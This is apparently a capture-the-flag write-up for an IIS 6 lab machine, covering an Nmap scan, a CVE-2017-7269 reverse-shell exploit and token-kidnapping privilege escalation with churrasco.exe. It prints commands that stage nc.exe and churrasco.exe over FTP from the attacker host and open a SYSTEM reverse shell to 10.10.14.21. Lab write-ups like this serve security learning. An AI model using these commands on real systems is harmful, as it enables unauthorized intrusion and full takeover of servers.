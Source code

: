 1. Run Nmap to discover any interesting opened port from the server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/da3d72c6-9900-430d-afd4-795a51ba1346)

2. Only port 80 is opened and it shows that the server uses IIS 6 which is vulnerable (CVE-2017-7269). Because of this vulnerability, I executed a reverse shell payload that comes from this [link](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/62b52c60-3da9-4581-85ed-1f7a1f8560fe)

Attacker terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4065cdff-e018-4983-83a2-fca55b2b39ee)

3. Checking one by one directory for interesting information and found a directory named "Lakis". Unfortunately, I don't have access to open the folder.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/07594dc1-466d-49ac-9ef8-2a2e0da60ba4)

4. According from this [article](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e), we can do privelege escalation by doing token kidnapping inside the terminal with churrasco.exe file, so let's use it.

Command: wget https://github.com/Re4son/Churrasco/blob/master/churrasco.exe?raw=true

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/143503d5-d126-4c6b-b26a-691a09ffbcf4)

5. To do it remotely, the terminal must have a netcat file and kali linux has provided it in windows resources.

Command: cp /usr/share/windows-resources/binaries/nc.exe .

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a9732d71-b1e8-4cb0-92f9-cb6dcfb46847)

6. Now I must move the churrasco.exe and nc.exe to the victim terminal. To do it, I use ftp parameter uploading and unfortunately, I don't have access inside the directory.

Command: echo open 10.10.14.21 21> payloadftp.txt&echo USER anonymous >> payloadftp.txt&echo anonymous>> payloadftp.txt&echo bin>> payloadftp.txt&echo GET nc.exe >> payloadftp.txt&echo bye>> payloadftp.txt

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a2d2624d-57f8-4760-ac59-32d63bfbad2d)

7. There is one directory named wmpub that has the access to uploaded our payload file. So I use the previous command in this directory and it works!

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d10ef698-5f6a-408c-a574-5c054ec74282)


8. To execute the payload file (payloadftp.txt), I run this command in both terminal.

Attacker Terminal:<br>
Command:python3 -m pyftpdlib -p 21<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/021e26cc-6559-44c3-9e56-5b881ab224e4)


Victim Terminal:<br>
Command: ftp -v -n -s:payloadftp.txt<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/01e81fcc-d7f8-40f1-88dc-854620ba3082)

9.

Command: echo open 10.10.14.21 21> payloadftp.txt&echo USER anonymous >> payloadftp.txt&echo anonymous>> payloadftp.txt&echo bin>> payloadftp.txt&echo GET churrasco.exe >> payloadftp.txt&echo bye>> payloadftp.txt

Command 2: ftp -v -n -s:payloadftp.txt<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6cc52aed-d435-4301-9481-6416e552f63a)

10. Let's execute the reverse shell privelege escalation using churrasco.exe file.

Command: churrasco.exe -d "C:\wmpub\nc.exe 10.10.14.21 778 -e cmd.exe"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e125371c-0b6c-47d5-a7b9-aaaa0b89b20e)

Attacker Terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/24a046de-62a9-4243-8d0a-30242d7d33b9)

11. Now I get the root privelege and get access in Lukas directory. The user flag located in Dekstop/user.txt
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/230ff785-5022-4405-a0bc-50c1cd4cd06c)

12. For the root flag, I found in Administrator/Desktop/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/38c1dd15-3a6c-45f3-a243-ab238efd35af)








